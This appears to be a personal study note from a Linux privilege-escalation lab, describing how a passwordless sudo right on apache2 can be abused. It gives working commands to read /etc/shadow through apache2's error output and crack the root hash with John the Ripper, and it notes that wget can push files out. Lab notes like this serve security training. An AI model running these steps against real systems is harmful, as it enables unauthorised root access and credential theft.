

<!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Intended functionality</title>
</head><body>Escilation via intended functionality 
 
Abusing the fact you have sudo to do an intended function. 
 
IE ... 
 
sudo no password priv avilable for apache2. The user likely has some admin tasks. 
 
The sudo priv allows for viewing of protected files. so we can abuse that intended function. 
 
if GTFO des not have an entry. google it 
 
'apache2 sudo privelage escilation' 
 
and look for results. 
 
https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/ 
 
 
 
This errors out on line 1 which is enough to get teh root details that can then be extracted and potentailly cracked. 
 
 
We are abusing the an intended fucntion of a sudo privelage. 
 
wget can push!!! 
 
 
 
 
 
 
 
 
 
Detection 
 
Linux VM 
 
1. In command prompt type: sudo -l 
2. From the output, notice the list of programs that can run via sudo. 
 
Exploitation 
 
Linux VM 
 
1. In command prompt type: 
sudo apache2 -f /etc/shadow 
2. From the output, copy the root hash. 
 
Attacker VM 
 
1. Open command prompt and type: 
echo '[Pasted Root Hash]' &gt; hash.txt 
2. In command prompt type: 
john --wordlist=/usr/share/wordlists/nmap.lst hash.txt 
3. From the output, notice the cracked credentials. 
</body></html>